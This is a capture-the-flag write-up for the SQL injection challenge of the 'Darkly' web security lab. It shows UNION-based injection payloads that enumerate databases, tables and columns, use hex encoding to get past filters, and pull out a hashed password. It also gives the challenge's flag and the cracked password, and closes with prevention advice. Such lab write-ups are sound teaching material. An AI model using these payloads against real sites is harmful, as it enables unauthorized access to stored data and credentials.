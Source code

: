 # Darkly

## Sql Injection

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### How to find the flag

1. **Identifying SQL Injection Vulnerability**:
    
    In the Members section, there is a field to search for a member by ID. This field is directly vulnerable to SQL injection. We can use a UNION-based SQL injection to retrieve information about the web-server. For example, by entering:
    
    ```sql
    1 union select 1, version()
    ```
    
    We get information about the host version:
    
    ```
    5.5.64-MariaDB-1ubuntu0.14.04.1
    ```
    
2. **Retrieving Database information:**
    
    In order to obtain the database currentyly in use, we can type:
    
    ```sql
    1 union select database(), user()
    ```
    
    Output:
    
    ```
    Member_Sql_Injection
    ```
    
    Knowing this field is vulnerable, we can enumerate all databases on the webserver using:
    
    ```sql
    1 union select schema_name, 2 from information_schema.schemata
    ```
    
    This query reveals:
    
    - information_schema
    - Member_Brute_Force
    - Member_Sql_Injection
    - Member_guestbook
    - Member_images
    - Member_survey
3. **Retrieving Tables in a Database**:
    
    Next, we can list tables within the **Member_Sql_Injection** database using:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=database()
    ```
    
    The use of `database()` is necessary to avoid syntax errors. The output shows a table named "**users**."
    
4. **Finding Columns in the “users” table:**
    
    We can view columns within the "users" table by using:
    
    ```sql
    1 union select column_name, 2 from information_schema.columns where table_name=0x7573657273
    ```
    
    Here, we converted "users" to hexadecimal (0x7573657273) to bypass potential SQL injection filters.
    
5. **Extracting data:**
    
    Now that we know the columns in the "users" table, we see a column named "**Commentaire**." To view its content, we use:
    
    ```sql
    1 UNION SELECT Commentaire, 2 FROM users
    ```
    
    In the results, we see a message saying:
    
    ```
    "Decrypt this password -> then lower all the char…"
    ```
    
    Checking all columns in "users," we also find a "**countersign**" column containing a hash. Combining **Commentaire** and **countersign** with the following query:
    
    ```sql
    1 UNION SELECT Commentaire, countersign FROM users
    ```
    
    We obtain:
    
    ```
    First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
    Surname: 5ff9d0165b4f92b14994e5c685cdce28
    ```
    
6. Decrypting the Hash:
    
    Using an MD5 decrypter, we decrypt this hash to reveal: **FortyTwo**. By converting it to lowercase and hashing it with SHA-256, we obtain the final flag.

## Prevent SQLi

There are several methods that developers can implement in order to avoid sql injection:

1. **Use prepared statements and parameterized queries:**
    
    Ensure that the user input is not directly inserted into SQL queries.
    
2. **Input validation an sanitization:**
    
    Limit user input to acceptable values, such as numbers, dates, and specific text formats.
    
    Sanitize input to remove or escape potentially dangerous characters(e.g., single quotes or semicolons).
    
3. Implement least privileges for database access:
    
    Configure the database user permissions so that they only have the minimum access necessary.
